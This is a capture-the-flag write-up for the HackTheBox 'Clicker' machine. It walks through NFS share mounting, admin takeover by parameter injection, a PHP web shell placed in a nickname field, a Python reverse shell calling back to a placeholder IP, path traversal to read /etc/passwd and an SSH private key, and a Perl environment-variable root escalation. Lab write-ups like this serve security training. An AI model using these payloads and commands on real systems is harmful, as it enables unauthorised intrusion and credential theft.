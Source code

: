 #  Clicker HTB Machine - Medium 

__________________________________________

### Nmap

**22**/tcp    open     ssh     syn-ack
**80**/tcp    open     http    syn-ack
**111**/tcp   open     rpcbind syn-ack
**2049**/tcp  open     nfs     syn-ack
33925/tcp open     unknown syn-ack
37539/tcp open     unknown syn-ack
42223/tcp open     unknown syn-ack
43407/tcp open     unknown syn-ack
43637/tcp open     unknown syn-ack


## NFS

```sh
showmount -e $IP

Export list for $MachineIP:
/mnt/backups *
```

- Mount the nfs share:
```sh
sudo mount -t nfs $IP:/mnt/backups /YOUR/PATH/clicker/nfs
```

Inside the nfs share there is the backup of the webapp which i copied and unzipped into another folder.
## WebApp

80/tcp open  http    syn-ack Apache httpd 2.4.52 ((Ubuntu))

### Become Administrator
We found that we can add role in save_game.php from the source code. 
But if we add just "role=Admin" we will be redirect to "**/index.php?err=Malicious activity detected!**"

#### Path to Admin
1. Register
2. Play a match
3. Save the game
4. Modify the request for save_game.php:
	Add a null byte "**%0d**" before calling the parameter role=Admin.
	From:
	*GET /save_game.php?clicks=22&level=0 HTTP/1.1*
	To:
	*GET /save_game.php?clicks=22&level=0&%0drole=Admin HTTP/1.1*
5. Logout and login back again.
6. We are Admin.

# FOOTHOLD

In "save_game.php" we can also set the "nickname" parameter.
- Set the nickname to: 
```php
<?=`$_GET[0]`?>
```
- Save the game 
- Export the score from the administration page
- In burpsuite change the extension to *php*
- Go to the php saved page and add ..?0=id to execute a command to the server.
- In order to obtain a reverse shell use the python script:
	python3+-c+'import+os,pty,socket;s=socket.socket();s.connect(("YOURIP",5666));  
	[os.dup2(s.fileno(),f)for+f+in(0,1,2)];pty.spawn("sh")'
- Get an initial foothold but we are not a real user; it's time to privesc.
# Privesc to User

```sh
find / -perm -u=s -type f 2>/dev/null
```
With this command we find this binary:
/opt/manage/execute_query

There's a README.txt file:
```
Use the binary to execute the following task:
- 1: Creates the database structure and adds user admin
- 2: Creates fake players (better not tell anyone)
- 3: Resets the admin password
- 4: Deletes all users except the admin
```
So if we execute the bin like `./execute_query 1` we create the db struct etc..

- Download the binary "*execute_query*" in Your Machine and reverse engeneer with ghidra.
Looking for password we got the functionality where we see that we can choose from 5 options and not just 4 as stated in the README.txt.

We Must try it:
`./execute_query 5 ../../../etc/passwd`
We can read files, maybe we can get the id_rsa?
`./execute_query 5 ../.ssh/id_rsa`

With the id_rsa
`ssh -i id_rsa jack@$IP

# Privesc to ROOT

Now that we are a real user we can `sudo -l`

```sh
sudo -l
User jack may run the following commands on clicker:
    (ALL : ALL) ALL
    (root) SETENV: NOPASSWD: /opt/monitor.sh
```

The bash script calls 3 bins:
- usr/bin/curl
- usr/bin/echo
- usr/bin/xml_pp

xml_pp use PERL and That allowed me to run scripts as root, given that I could set the environment when running Perl script and it is vulnerable to "Perl Startup"
https://www.exploit-db.com/exploits/39702

We can run it via metasploit or just run a one liner:
```sh
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
bash -p
bash-5.1# 
```
root.








